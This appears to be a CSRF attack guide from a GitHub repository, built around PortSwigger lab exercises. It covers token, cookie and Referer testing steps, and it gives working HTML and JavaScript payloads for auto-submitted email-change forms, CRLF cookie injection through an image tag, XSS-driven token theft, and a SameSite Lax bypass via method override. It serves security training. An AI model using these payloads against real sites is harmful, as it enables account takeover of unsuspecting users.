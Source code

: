 # CSRF (Cross-Site Request Forgery) Attack Guide

---

## Index

1. [Testing CSRF Token](#testing-csrf-token)
2. [Testing CSRF Token and CSRF Cookies](#testing-csrf-token-and-csrf-cookies)
3. [Exploitation Techniques](#exploitation-techniques)
   - [HTML Exploit Example](#html-exploit-example)
   - [Image-based CSRF Cookie Injection](#image-based-csrf-cookie-injection)
   - [XSS Based CSRF Attack](#XSS-Based-CSRF-Attack)
5. [Testing the Referer Header for CSRF Attack](#testing-the-referer-header-for-csrf-attack)
   - [Exploit for Referer Header Validation (Case 1)](#exploit-for-referer-header-validation-case-1)
6. [Bypassing SameSite Policy](#bypassing-samesite-policy)
   - [Lax Bypass Via Method Override](#Lax-Bypass-Via-Method-Override)

---

## Testing CSRF Token

When testing a CSRF token, follow these steps:

1. **Remove CSRF parameter/token**: Check if the application accepts requests without the token.
2. **Change request method (POST to GET)**: Test if changing the method affects token validation.
3. **Exchange CSRF token with another user**: Verify if tokens are user-specific by testing another user’s token.

---

## Testing CSRF Token and CSRF Cookies

**If CSRF cookie Not Tied With User Session Cookie**

1. **Submit an invalid CSRF token**: See if the application accepts it.
2. **Submit a valid CSRF token from another user**: Check if the token is user-specific. 
3. **Submit a valid CSRF token and CSRF cookie from another user**: Test if both token and cookie are required to match.
4. **Assign a random value to token + cookie**: In a duplicated token cookie, try setting the same random value to both.

**If CSRF cookie Tied With User Session Cookie**

[Portswigger Lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

<br>

**Note:** You can collect csrf token by inspect element.

---

### Exploitation Techniques

To exploit a CSRF token + cookie mechanism, two actions are required:

1. **Inject a CSRF cookie into the user's session** (via HTTP header injection)
2. **Send a CSRF attack to the victim**

### HTML Exploit Example

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<script>
        document.forms[0].submit();
</script>
```

### Image-based CSRF Cookie Injection

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```

### XSS Based CSRF Attack

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open('get', '/my-account', true);
  req.send();

  function handleResponse() {
    // Extract the CSRF token from the response
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];

    // Display the token in a popup alert
    alert('Extracted CSRF Token: ' + token);

    // Send a POST request to change the email
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf=' + token + '&email=test@test.com');
  }
</script>
```

---

## Testing the Referer Header for CSRF Attack

1. **Remove the Referer header**: See if the application still processes the request without it.
2. **Validate which part of the Referer header is used**: Identify which part is validated by the application.

   - **Example 1**: `Referer: https://attacker.com/?vulnerable-web.net`
   - **Example 2**: `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack`

### Exploit for Referer Header Validation (Case 1)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Bypassing SameSite Policy

### **Table**

| Attribute         | Sent with Cross-Origin Requests? | Sent on Same-Site Requests? | Notes                                       |
|-------------------|----------------------------------|-----------------------------|---------------------------------------------|
| `Strict`          | No                              | Yes                         | Most secure, but may reduce usability.      |
| `Lax`             | Limited (e.g., navigation GET)  | Yes                         | Good balance between usability and security.|
| `None` (with `Secure`) | Yes                             | Yes                         | Necessary for third-party cookies.          |
| No Attribute      | Limited (assumed `Lax`)         | Yes                         | Default behavior in most modern browsers.   |

---

[Same site explanation](https://www.youtube.com/watch?v=aUF2QCEudPo&t=360s)

<br>

Key Note:
```plaintext
Set-Cookie: session=bciZoELY2ukJUUOj1zJ7wcAGdYXtvq3C; Secure; HttpOnly; SameSite=Strict
```

### Lax Bypass Via Method Override

1. **Change request method from POST to GET in Burp**
2. **Try overriding the method by adding the ```_method``` parameter to the query string**

**Example**: GET /my-account/change-email?email=pwned@hacked.com```&_method=POST``` HTTP/1.1

**Payload**
```javascript
<script>
    document.location = "https://vulnerable.web/my-account/change-email?email=pwned@hacked.com&_method=POST";
</script>
```

--- 
Key Note:
```plaintext
Set-Cookie: session=bciZoELY2ukJUUOj1zJ7wcAGdYXtvq3C; Secure; HttpOnly; SameSite=Strict
```

